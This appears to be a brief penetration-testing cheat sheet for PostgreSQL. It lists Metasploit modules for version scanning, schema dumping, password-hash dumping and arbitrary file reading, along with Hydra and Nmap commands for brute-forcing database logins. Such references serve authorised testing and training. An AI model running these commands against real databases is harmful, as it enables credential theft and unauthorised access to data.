 ### Version

#### Metasploit module
```
use auxiliary/scanner/postgres/postgres_version
```

### Database Shcema

#### Metasploit module
```
use auxiliary/scanner/postgres/postgres_schemadump
```
### POST

#### Hashdump
```
use auxiliary/scanner/postgres/postgres_hashdump
```
#### Arbitrary file system reading
```
use auxiliary/admin/postgres/postgres_readfile
```
### Bruteforce 

#### Hydra
```
hydra -L USERFILE  -P PASSFILE IP postgres
```
### Nmap Script
```
nmap -p 5432 --script pgsql-brute --script-argsuserdb=users.txt,passdb=pass.txt IP
```
#### Metasploit module
```
use auxiliary/scanner/postgres/postgres_login
```
